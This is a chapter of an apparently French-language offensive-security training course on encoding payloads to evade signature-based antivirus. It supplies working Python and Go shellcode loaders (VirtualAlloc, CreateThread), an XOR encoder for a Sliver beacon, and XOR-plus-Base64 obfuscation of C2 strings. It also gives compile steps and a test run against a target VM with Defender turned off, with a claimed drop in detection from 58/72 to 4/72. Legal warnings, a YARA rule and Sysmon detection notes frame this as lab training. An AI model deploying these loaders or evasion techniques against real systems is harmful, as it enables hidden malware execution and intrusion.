

# 6.4 Encodage du payload pour échapper aux scanners statiques

!!! quote "L'analogie du contrebandier qui déguise sa marchandise"

    Un douanier qui contrôle tous les colis cherche des formes connues : la forme d'une arme, la densité d'une drogue, les produits chimiques caractéristiques. Un contrebandier expérimenté ne transporte pas la marchandise telle quelle. Il la dissimule dans des objets anodins, la découpe en morceaux répartis dans plusieurs valises, ou la mélange à d'autres substances pour masquer son profil chimique. L'antivirus à signature joue le rôle du douanier : il cherche des séquences d'octets caractéristiques connues, des patterns de code, des strings reconnaissables. L'encodage du payload joue le rôle du contrebandier. Ce chapitre vous enseigne les mécanismes, pas pour les promouvoir, mais pour que vous sachiez précisément ce que votre EDR doit détecter malgré ces déguisements.

## Métadonnées du chapitre

Ce chapitre est la suite directe du 6.3. Voici ses caractéristiques.

| Champ | Valeur |
|---|---|
| Durée estimée | 3 heures |
| Niveau | Pratique offensive - Lab isolé |
| Prérequis | 6.3 validé, Python 3 installé sur Kali |
| Livrables | Payload encodé XOR + loader en C/Go, analyse défensive |
| Auto-explication | 12 minutes |

!!! danger "Cadre légal strict"

    Les techniques présentées ici visent à contourner des défenses. Leur application hors d'un lab isolé avec mandat écrit constitue une infraction aux articles **323-1**, **323-3** et **323-7** du Code pénal. La connaissance de ces méthodes est nécessaire pour tout analyste SOC ou pentesteur certifié (RNCP 36399). Elle ne justifie pas une utilisation non autorisée.

## Objectifs pédagogiques

À l'issue de ce chapitre, vous serez capable de :

- Comprendre le fonctionnement des antivirus à détection par signature
- Appliquer l'encodage XOR simple sur un binaire
- Utiliser Base64 et chiffrement de strings pour masquer des indicateurs
- Produire un loader en Python et en Go qui décode et exécute le payload
- Analyser les limites de ces techniques face aux EDR comportementaux
- Comprendre ce que Sysmon, l'AMSI et les EDR modernes détectent malgré tout

<br>

---

## 1. Cadre juridique

### 1.1 Articles applicables

| Article | Infraction | Peine |
|---|---|---|
| CP 323-1 | Accès frauduleux à un STAD | 3 ans / 100 000 € |
| CP 323-3 | Modification ou suppression frauduleuse de données | 5 ans / 150 000 € |
| CP 323-3-1 | Mise à disposition de programmes conçus pour nuire | 2 ans / 30 000 € |
| CP 323-7 | Tentative et complicité | Mêmes peines |

L'article **323-3-1** est directement pertinent : distribuer un payload encodé dont le but est de contourner des défenses est constitutif de cette infraction hors cadre lab.

<br>

---

## 2. Pourquoi les antivirus à signature échouent

### 2.1 Principe de la détection par signature

Un **antivirus à signature** (ancienne génération) compare le contenu des fichiers à une base de données de patterns connus.

```text
FONCTIONNEMENT AV À SIGNATURE
================================

1. L'AV scanne le binaire octet par octet
2. Il cherche des séquences connues (signatures)
   Exemples :
   - "MZ\x90\x00..." = header PE (binaire Windows)
   - "4d5a9000..." = même chose en hex
   - Séquences propres à Sliver, Meterpreter, etc.
3. Si une signature correspond : DÉTECTÉ
4. Si aucune correspondance : laissé passer

Limite critique :
   Si le binaire est modifié (même légèrement),
   la signature ne correspond plus.
   → Taux de détection VirusTotal : de 60/70 à 0-5/70
     avec encodage simple
```

_Les AV modernes (NGAV, EDR) ne se basent pas uniquement sur les signatures. Ils analysent aussi le comportement à l'exécution._

### 2.2 Ce que l'encodage change et ce qu'il ne change pas

| Aspect | Encodage change | EDR comportemental voit quand même |
|---|---|---|
| Signature fichier | Oui, radicalement | — |
| Strings lisibles (URLs, IPs) | Oui si chiffrées | Après décodage en mémoire |
| Comportement réseau (beacon) | Non | Oui (Suricata, JA3, netflow) |
| Processus créés | Non | Oui (Sysmon, EDR) |
| Appels API Win32 | Non | Oui (API hooking) |
| Registre / persistance | Non | Oui (Sysmon Event 13) |

<br>

---

## 3. XOR - Encodage par opération OU exclusif

### 3.1 Principe mathématique

XOR (OU Exclusif) est l'opération binaire la plus simple pour l'obfuscation.

```text
PROPRIÉTÉ XOR
===============

A XOR K = B   (encodage)
B XOR K = A   (décodage)

Exemple :
  A = 0x41 ('A')
  K = 0x99 (clé)
  B = A XOR K = 0x41 XOR 0x99 = 0xD8

  Pour décoder :
  B XOR K = 0xD8 XOR 0x99 = 0x41 = 'A' ✓

Conséquence :
  Si on XOR chaque octet du beacon.exe avec une clé,
  le résultat n'est plus reconnaissable par les AV à signature.
  Le loader reverse l'opération en mémoire avant d'exécuter.
```

### 3.2 Script Python - Encodeur XOR du beacon

```python
#!/usr/bin/env python3
# xor_encoder.py - Encodeur XOR pour payload lab ARTECH
# Usage : python3 xor_encoder.py beacon.exe beacon_xor.bin 0x99
# Lab uniquement - cadre OmnyAcademy

import sys

def xor_encode(data: bytes, key: int) -> bytes:
    """Applique un XOR octet par octet avec la clé fournie."""
    return bytes([b ^ key for b in data])

def main():
    if len(sys.argv) != 4:
        print(f"Usage : {sys.argv[0]} <input> <output> <clé hex (ex: 0x99)>")
        sys.exit(1)

    fichier_entree = sys.argv[1]
    fichier_sortie = sys.argv[2]
    cle = int(sys.argv[3], 16)     # Parse 0x99 → 153

    # Lecture du payload original
    with open(fichier_entree, "rb") as f:
        payload_original = f.read()

    print(f"[*] Payload original : {len(payload_original)} octets")
    print(f"[*] Clé XOR          : 0x{cle:02X}")

    # Encodage XOR
    payload_encode = xor_encode(payload_original, cle)

    # Écriture du payload encodé
    with open(fichier_sortie, "wb") as f:
        f.write(payload_encode)

    print(f"[+] Payload encodé   : {fichier_sortie} ({len(payload_encode)} octets)")

    # Vérification par décodage immédiat
    payload_reverse = xor_encode(payload_encode, cle)
    assert payload_reverse == payload_original, "Erreur : round-trip XOR échoué"
    print(f"[+] Vérification round-trip : OK")

if __name__ == "__main__":
    main()
```

_Le script lit le beacon binaire, applique le XOR octet par octet, et écrit le résultat. La vérification round-trip garantit que le décodage sera identique à l'original._

```bash
# Usage en lab
python3 xor_encoder.py beacon.exe beacon_xor.bin 0x99

# Vérification hash avant/après
sha256sum beacon.exe
sha256sum beacon_xor.bin
# Les hashs doivent être différents (le payload est transformé)
```

### 3.3 Loader Python - Décodage et exécution en mémoire

```python
#!/usr/bin/env python3
# xor_loader.py - Loader XOR pour lab
# Décode et exécute le payload en mémoire sans toucher le disque
# Lab ARTECH uniquement

import ctypes
import sys

def xor_decode(data: bytes, key: int) -> bytes:
    """Décode un payload XOR - opération symétrique."""
    return bytes([b ^ key for b in data])

def executer_en_memoire(payload: bytes) -> None:
    """
    Alloue une zone mémoire exécutable (VirtualAlloc),
    y copie le payload décodé (RtlMoveMemory),
    puis crée un thread qui l'exécute (CreateThread).
    Technique shellcode injection basique - détectée par EDR moderne.
    """
    # Allocation mémoire exécutable
    MEM_COMMIT      = 0x1000
    MEM_RESERVE     = 0x2000
    PAGE_EXECUTE_READWRITE = 0x40

    kernel32 = ctypes.windll.kernel32

    addr = kernel32.VirtualAlloc(
        None,
        len(payload),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    )

    if not addr:
        print("[-] VirtualAlloc échoué")
        sys.exit(1)

    # Copie du payload dans la zone allouée
    ctypes.memmove(addr, payload, len(payload))

    # Création d'un thread exécutant le payload
    handle = kernel32.CreateThread(None, 0, addr, None, 0, None)
    if handle:
        kernel32.WaitForSingleObject(handle, 0xFFFFFFFF)

def main():
    # Payload XOR encodé (intégré ou lu depuis fichier)
    with open("beacon_xor.bin", "rb") as f:
        payload_encode = f.read()

    CLE_XOR = 0x99   # Doit correspondre à l'encodeur

    # Décodage en mémoire
    payload_decode = xor_decode(payload_encode, CLE_XOR)
    print(f"[*] Payload décodé : {len(payload_decode)} octets")

    # Exécution
    executer_en_memoire(payload_decode)

if __name__ == "__main__":
    main()
```

_`VirtualAlloc` + `CreateThread` est la technique la plus élémentaire d'injection en mémoire. Elle est détectée par tout EDR moderne via l'API hooking de `NtAllocateVirtualMemory`._

<br>

---

## 4. Chiffrement des strings - Masquer les indicateurs statiques

### 4.1 Pourquoi les strings sont critiques

Les antivirus analysent aussi les chaînes de caractères (strings) d'un binaire.

```text
STRINGS RÉVÉLATRICES DANS UN BEACON SLIVER
=============================================

Sans obfuscation, un binaire Sliver contient :
  - "github.com/bishopfox/sliver"
  - Les IPs/domaines du C2
  - Les ports de communication
  - Les certificats TLS embarqués
  - Les noms de fonctions caractéristiques

Avec strings.exe ou Ghidra :
  strings beacon.exe | grep -E "sliver|C2_IP|beacon"
  → Immédiatement reconnaissable

Solution :
  Chiffrer ces strings dans le binaire.
  Les déchiffrer uniquement en mémoire à l'exécution.
```

### 4.2 Obfuscation de strings en Python

```python
#!/usr/bin/env python3
# string_obfuscator.py - Masquage de strings sensibles

import base64

def chiffrer_string(plaintext: str, cle: int = 0x42) -> str:
    """
    Chiffre une string par XOR puis Base64.
    Résultat : string imprimable stockable dans le code.
    """
    encoded_bytes = bytes([ord(c) ^ cle for c in plaintext])
    return base64.b64encode(encoded_bytes).decode()

def dechiffrer_string(ciphertext: str, cle: int = 0x42) -> str:
    """Déchiffre une string chiffrée par XOR+Base64."""
    decoded_bytes = base64.b64decode(ciphertext)
    return ''.join([chr(b ^ cle) for b in decoded_bytes])

# ---- Exemple d'usage dans un loader ----

# Ces valeurs seraient dans le code source du loader
C2_IP_CHIFFRE  = chiffrer_string("192.168.50.20", 0x42)
C2_PORT_CHIFFRE = chiffrer_string("443", 0x42)

print(f"IP C2 chiffrée   : {C2_IP_CHIFFRE}")
print(f"Port C2 chiffré  : {C2_PORT_CHIFFRE}")

# À l'exécution, le loader déchiffre :
ip_c2   = dechiffrer_string(C2_IP_CHIFFRE, 0x42)
port_c2 = dechiffrer_string(C2_PORT_CHIFFRE, 0x42)

print(f"IP C2 déchiffrée : {ip_c2}")    # 192.168.50.20
print(f"Port C2 déchiffré: {port_c2}")  # 443
```

_Le résultat stocké dans le code source n'est plus une IP lisible mais une chaîne Base64 arbitraire. L'AV à signature ne la reconnaît pas._

<br>

---

## 5. Loader Go - Version plus réaliste

Go est souvent utilisé pour les loaders car il compile en binaires natifs sans dépendance, et les binaires Go avaient historiquement un faible taux de détection (en baisse depuis 2023).

### 5.1 Code du loader Go

```go
// loader.go - Loader XOR en Go - Lab ARTECH uniquement
// Compile : go build -o loader.exe loader.go
// USAGE EXCLUSIF LAB ISOLÉ

package main

import (
	"encoding/base64"
	"fmt"
	"os"
	"unsafe"

	"golang.org/x/sys/windows"
)

// Clé XOR - doit correspondre à l'encodeur Python
const CleXOR = byte(0x99)

// xorDecode décode un slice de bytes avec la clé XOR
func xorDecode(data []byte, cle byte) []byte {
	result := make([]byte, len(data))
	for i, b := range data {
		result[i] = b ^ cle
	}
	return result
}

// dechiffrerString décode une string XOR+Base64
func dechiffrerString(encoded string, cle byte) string {
	decoded, err := base64.StdEncoding.DecodeString(encoded)
	if err != nil {
		return ""
	}
	return string(xorDecode(decoded, cle))
}

func main() {
	// Lecture du payload encodé
	payloadEncode, err := os.ReadFile("beacon_xor.bin")
	if err != nil {
		fmt.Println("[-] Erreur lecture payload")
		os.Exit(1)
	}

	// Décodage XOR
	payload := xorDecode(payloadEncode, CleXOR)
	fmt.Printf("[*] Payload décodé : %d octets\n", len(payload))

	// Allocation mémoire exécutable via API Windows natives
	kernel32 := windows.NewLazySystemDLL("kernel32.dll")
	virtualAlloc := kernel32.NewProc("VirtualAlloc")
	rtlMoveMemory := kernel32.NewProc("RtlMoveMemory")
	createThread := kernel32.NewProc("CreateThread")
	waitForSingleObject := kernel32.NewProc("WaitForSingleObject")

	// VirtualAlloc : PAGE_EXECUTE_READWRITE = 0x40
	addr, _, _ := virtualAlloc.Call(
		0,
		uintptr(len(payload)),
		0x3000, // MEM_COMMIT | MEM_RESERVE
		0x40,   // PAGE_EXECUTE_READWRITE
	)

	if addr == 0 {
		fmt.Println("[-] VirtualAlloc échoué")
		os.Exit(1)
	}

	// Copie du payload décodé dans la zone exécutable
	rtlMoveMemory.Call(addr, uintptr(unsafe.Pointer(&payload[0])), uintptr(len(payload)))

	// Création et attente du thread
	handle, _, _ := createThread.Call(0, 0, addr, 0, 0, 0)
	waitForSingleObject.Call(handle, 0xFFFFFFFF)
}
```

_Ce loader Go est un exemple pédagogique de la technique. Tout EDR moderne (CrowdStrike, Defender for Endpoint, SentinelOne) le détecte par surveillance des appels `VirtualAlloc` avec `PAGE_EXECUTE_READWRITE` suivi de `CreateThread`._

### 5.2 Compilation pour Windows depuis Kali

```bash
# Installer la chaîne de compilation Go cross-platform
sudo apt install golang -y

# Créer le répertoire du projet et initialiser le module Go
# (obligatoire avant tout go get - sans go.mod, la commande échoue)
mkdir -p /root/lab/loader && cd /root/lab/loader
go mod init loader

# Copier loader.go dans ce répertoire, puis installer la dépendance Windows
go get golang.org/x/sys/windows@latest

# Vérifier que go.sum a été généré
ls -la
# go.mod  go.sum  loader.go

# Compilation croisée (Kali → Windows x64)
GOOS=windows GOARCH=amd64 go build -o loader.exe loader.go

# Vérification
file loader.exe
# → PE32+ executable (GUI) x86-64, for MS Windows
```

_`go mod init loader` est indispensable avant `go get`. Sans `go.mod`, Go ne sait pas dans quel module rattacher la dépendance et renvoie l'erreur `go: go.mod file not found`._

<br>

---

## 6. Test et validation en lab

### 6.1 Workflow complet

Voici la séquence de test de l'encodage.



### 6.2 Vérification VirusTotal en lab

```bash
# Hash du beacon original
sha256sum beacon.exe
# → Soumettre sur VirusTotal pour voir le taux de détection de base

# Hash du beacon encodé
sha256sum beacon_xor.bin
# → Resoumettre pour comparer

# Comparaison (exemple typique)
# beacon.exe      : 58/72 détections
# beacon_xor.bin  : 4/72 détections

# Attention : VirusTotal partage les échantillons avec les éditeurs AV
# En engagement réel, ne jamais soumettre un payload actif
# En lab : OK car payload lab local sans valeur réelle
```

### 6.3 Test d'exécution sur VM cible

```text
PROCÉDURE TEST VM CIBLE
=========================

1. Transférer sur VM Windows (partage ou HTTP serveur lab) :
   - beacon_xor.bin
   - loader.exe (ou loader.py)

2. Lancer Wireshark sur Kali (observer trafic)

3. Sur VM Windows (antivirus désactivé pour le test) :
   loader.exe
   → Doit décoder beacon_xor.bin
   → Doit injecter en mémoire
   → Doit établir connexion vers Sliver C2 (6.5)

4. Vérifier dans Sliver la session entrante

5. Snapshot après test + rapport de test
```

<br>

---

## 7. Limites et détection EDR moderne

### 7.1 Ce que l'encodage ne cache pas

L'encodage XOR/Base64 est une technique de la première génération. Les EDR modernes passent outre par plusieurs mécanismes.

| Mécanisme EDR | Ce qu'il détecte | Efficacité |
|---|---|---|
| API Hooking (NTDLL) | `VirtualAlloc` + `PAGE_EXECUTE_READWRITE` | Très haute |
| AMSI Scan (injection) | Payload en mémoire avant exécution | Haute |
| Behaviour Monitoring | Processus → réseau C2 | Très haute |
| JA3/JA4 TLS fingerprint | Beacon Sliver identifiable par TLS | Haute |
| Memory Scanning | Beacon décodé en RAM | Haute |
| Parent/Child process | loader.exe → injecteur | Haute |

### 7.2 Règle YARA de détection

```text
RÈGLE YARA - XOR LOADER GÉNÉRIQUE
=====================================

rule XOR_Loader_Generic {
    meta:
        description = "XOR decoder loop pattern in PE"
        author      = "Lab ARTECH - défense"
        date        = "2026-05-03"

    strings:
        // Pattern boucle XOR typique (assembleur x64)
        $xor_loop = { 30 [1-4] 4? [0-3] 75 ?? }

        // VirtualAlloc suivi de CreateThread (signature comportementale)
        $virtualalloc = "VirtualAlloc" ascii nocase
        $createthread = "CreateThread" ascii nocase

    condition:
        uint16(0) == 0x5A4D    // MZ header (PE valide)
        and $xor_loop
        and $virtualalloc
        and $createthread
}
```

### 7.3 Détection Sysmon

Voici les événements Sysmon qui capturent ce type de loader.

```text
ÉVÉNEMENTS SYSMON PERTINENTS
==============================

Event ID 1 - Process Creation
  → loader.exe lancé depuis WINWORD.EXE
  → Champ CommandLine et ParentCommandLine

Event ID 10 - Process Access
  → loader.exe accède à la mémoire d'un autre processus
  → Si injection dans processus tiers

Event ID 3 - Network Connection
  → loader.exe / beacon décodé → 192.168.50.20:443
  → Connexion vers le C2

Event ID 7 - Image Loaded
  → kernel32.dll chargé par loader.exe
  → Normal, mais croisé avec Event 3 = suspect

Event ID 8 - CreateRemoteThread
  → Si injection dans processus distant
```

<br>

---

## 8. Documentation forensique

Voici le journal à tenir pour ce chapitre.

```markdown
# Journal de test - Encodage payload - ARTECH Lab
# Date : YYYY-MM-DD

## Environnement
- Kali (C2) : 192.168.50.20
- Windows cible : 192.168.50.100 (VM snapshot avant test)
- Defender : désactivé pour le test

## Payload original
- Fichier : beacon.exe (généré au 6.5)
- SHA-256 : aabbcc...
- VirusTotal initial : 58/72

## Encodage XOR
- Clé : 0x99
- Commande : python3 xor_encoder.py beacon.exe beacon_xor.bin 0x99
- Fichier résultant : beacon_xor.bin
- SHA-256 résultant : ddeeff...
- VirusTotal post-encodage : 4/72

## Loader
- Type : Go compilé (loader.exe)
- Technique : VirtualAlloc + RtlMoveMemory + CreateThread

## Test VM cible
- Heure exécution : HH:MM:SS
- Événements Sysmon observés : Event 1 (loader.exe), Event 3 (connexion C2)
- Session Sliver ouverte : Oui / ID xxxxx

## Conclusion
Réduction de détection : 58/72 → 4/72 avec XOR seul
Détection comportementale : maintenue (EDR voit VirtualAlloc+CreateThread)
```

<br>

---

## 9. Auto-évaluation

Vérifiez votre maîtrise par les questions suivantes.

| # | Question | Réponse |
|---|---|---|
| 1 | Propriété fondamentale de XOR ? | A XOR K XOR K = A (réversible) |
| 2 | Pourquoi XOR seul est insuffisant contre EDR ? | Comportement en mémoire reste visible |
| 3 | Outil pour strings d'un binaire ? | `strings.exe`, `Ghidra`, `Detect-It-Easy` |
| 4 | API Windows pour mémoire exécutable ? | `VirtualAlloc` avec `PAGE_EXECUTE_READWRITE` |
| 5 | Mécanisme EDR capturant VirtualAlloc ? | API Hooking (NTDLL inline hooks) |
| 6 | Event Sysmon pour connexion réseau ? | Event ID 3 |
| 7 | Quelle technique identifie Sliver par TLS ? | JA3/JA4 fingerprint |
| 8 | Pourquoi ne pas soumettre sur VirusTotal en engagement réel ? | Les AV vendors reçoivent les échantillons |

<br>

---

## 10. Synthèse

```text
ENCODAGE PAYLOAD - RÉCAPITULATIF
===================================

TECHNIQUES COUVERTES
  XOR byte-by-byte (symétrique, simple)
  XOR + Base64 pour strings
  Loader Go ou Python

CE QUE L'ENCODAGE MASQUE
  Signature statique antivirus
  Strings lisibles (IPs, domaines)
  Hash fichier

CE QUE L'ENCODAGE NE MASQUE PAS
  Comportement à l'exécution (VirtualAlloc)
  Connexions réseau vers C2
  Empreinte TLS (JA3/JA4)
  Logs Sysmon (Event 1, 3, 10)
  AMSI scan en mémoire (post-décodage)

DÉTECTION DÉFENSIVE
  EDR : API hooking NtAllocateVirtualMemory
  Sysmon : Event 1 + 3 corrélés
  Network : JA3/JA4 Sliver connu
  YARA : pattern boucle XOR + VirtualAlloc + CreateThread

ARTICLES JURIDIQUES
  CP 323-3-1 : mise à disposition de programmes nuisibles
  CP 323-1   : accès frauduleux STAD
```

## Conclusion

!!! quote "L'obfuscation est une course sans fin - la défense comportementale l'a déjà gagnée"

> Le chapitre 6.5 installe et configure le framework C2 Sliver qui reçoit les connexions beacon. Vous aurez enfin toute la chaîne : payload encodé, livré par le document Word du 6.3, qui se connecte au C2 du 6.5.

---

**Chapitre précédent** : [6.3 Création document Word piégé avec macro VBA](03-document-word-macro-vba.md)

**Chapitre suivant** : [6.5 Sliver C2 - Installation et configuration](05-sliver-c2-installation.md)
